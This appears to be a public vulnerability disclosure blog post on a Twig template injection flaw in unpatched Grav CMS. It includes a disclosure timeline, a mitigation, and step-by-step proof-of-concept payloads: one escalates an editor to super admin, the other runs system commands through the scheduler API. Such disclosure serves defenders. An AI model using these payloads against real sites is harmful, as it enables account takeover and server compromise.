 ```yaml
---
title: Grav CMS vulnerability
description: >-
  A zero day vulnerability in content management system.
date: 2025-07-27 08:00:00 +0000
categories: [Vulnerability Reports, Grav CMS ]
tags: [grav cms, ssti,twig injection, rce, cve, bug, open-source, web security ]
author: p1r0x 
---
```


> **CVE‑ID:** CVE‑TBD  
> **Published:** 2025-07-27  
> **Reported:** 2025-04-18  
> **Last Updated:** 2025-07-27  
> **Severity:** CVSS v3.0 Base Score: 8.8 (vector: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
> **Affected Versions:** From `1.7.0` through `1.7.48` and all prereleases `1.8.1 - 1.8.4`  
> **Fixed Version:** `None`  


---


## 1. Executive Summary

A user with admin panel access and permissions to create or edit pages in Grav CMS can enable Twig processing in the page frontmatter or settings. By injecting malicious Twig expressions, the user can escalate their privileges to (super) admin or execute arbitrary system commands via the scheduler API. This results in both Privilege Escalation (PE) and Remote Code Execution (RCE) vulnerabilities.

---

## 2. Timeline

| Date       | Event                                                         | Days since initial report|
| ---------- | ------------------------------------------------------------- |--------------------------|
| 2025‑04‑18 | Initial disclosure sent via email to maintainers.             |0                         |
| 2025‑04‑21 | Added to upstream Security Advisory board.                    |3                         |
| 2025‑06‑03 | First follow‑up emailed—no reply.                             |46                        |
| 2025‑06‑20 | Comment posted on advisory—no reply.                          |63                        |
| 2025‑07‑19 | Last‑call email sent (1 week deadline).                       |92                        |
| 2025‑07‑27 | Public disclosure.                                            |100                       |

---

## 3. Details & Proof-of-Concept

### 3.1 Details

Grav CMS allows Twig to be executed in page templates if enabled in admin panel (process: twig: true).
A user with publisher/editor privileges, that can create or edit pages and enable twig processing, can thereby inject arbitrary code that will execute in the context of the page render.

This enables exploitation of Grav internal APIs such as:
- `grav.user.update()` and `grav.user.save()` for escalating the current user to super admin or admin
- `grav.scheduler.addCommand()`, `grav.scheduler.save()` and `grav.scheduler.run()` for code execution

The Twig sandbox is not enforced in this context, allowing full access to any backend PHP object and method in the `system/src/Grav/Common` directory.

### 3.2 PoC

> Preconditions:
> - You must have access to at least **editor level** user with permission to create/edit pages (```admin.pages``` access)
> - For Privilege Escalation, you also have to be logged in to the site with the same user as the admin panel.
{: .prompt-info }

#### Steps to reproduce Privilege Escalation:
1. Login into the non-admin page (default at `cms-url/login`).
2. Login to the admin panel, create or edit a page and set the Twig processing to true (Advanced -> Process: Twig: true).
3. Inject the following payload into the page content to escalate privileges:

    {% raw %}
    ```text
    {% set _ = grav.user.update({
        'access': {
            'admin': {
                'login': true,
                'super': true
            }
        }
    }, {}) %}
    {% set _ = grav.user.save() %}
    ```
    {% endraw %}

4. Visit the edited/created page url. The logged in user is now admin. (*Note: For the changes to show, you need to log out of the admin panel and relogin).*

#### Steps to reproduce Remote Code Execution:
1. Login to the admin panel, create or edit a page and set the Twig processing to true (Advanced -> Process: Twig: true).
2. Inject the following payload into the page content to execute commands:

    {% raw %}
    ```text
    {% set _ = grav.scheduler.addCommand('curl', ['http://localhost:8000']) %}
    {% set _ = grav.scheduler.save() %}
    {% set _ = grav.scheduler.run() %}
    ```
    {% endraw %}

3. Visit the page to trigger the execution. The system will issue a `curl` request.

---

## 4. Impact

**Scope:** Remote Code Execution as any authenticated user.  
**Impact:** Full system compromise, data exfiltration, pivot to internal networks.  
**CVSS v3.1 Vector:** CVSS v3.0 vector: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H  

---

## 5. Mitigation & Patch

Currently, there is no official patch for this exploit.  
I recommend globally turning off twig processing as a temporary fix.

---

## 6. Disclosure & Credits

Discovered and reported by [p1r0x](https://x.com/p1r0xSec){:target="_blank"}.
